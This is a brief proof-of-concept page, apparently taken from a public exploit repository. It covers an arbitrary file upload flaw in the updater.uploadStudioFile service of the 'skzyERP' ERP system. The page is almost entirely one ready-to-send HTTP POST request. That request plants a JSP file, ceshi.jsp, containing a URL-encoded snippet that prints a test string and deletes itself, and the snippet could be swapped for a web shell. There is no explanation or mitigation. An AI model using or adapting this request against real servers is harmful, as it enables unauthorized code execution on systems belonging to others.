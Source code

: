 # skzyERP_updater.uploadStudioFile_fileupload

from: https://github.com/wy876/POC/blob/main/%E6%97%B6%E7%A9%BA%E6%99%BA%E5%8F%8BERP%E7%B3%BB%E7%BB%9Fupdater.uploadStudioFile%E6%8E%A5%E5%8F%A3%E5%A4%84%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md

2024.7.1

```
POST /formservice?service=updater.uploadStudioFile HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 1098
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close

content=<?xml%20version="1.0"?><root><filename>ceshi.jsp</filename><filepath>./</filepath><filesize>172</filesize><lmtime>1970-01-01%2008:00:00</lmtime></root><!--%3c%25%20%6f%75%74%2e%70%72%69%6e%74%6c%6e%28%22%48%65%6c%6c%6f%20%57%6f%72%6c%64%21%22%29%3b%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%46%69%6c%65%28%61%70%70%6c%69%63%61%74%69%6f%6e%2e%67%65%74%52%65%61%6c%50%61%74%68%28%72%65%71%75%65%73%74%2e%67%65%74%53%65%72%76%6c%65%74%50%61%74%68%28%29%29%29%2e%64%65%6c%65%74%65%28%29%3b%20%25%3e-->
```

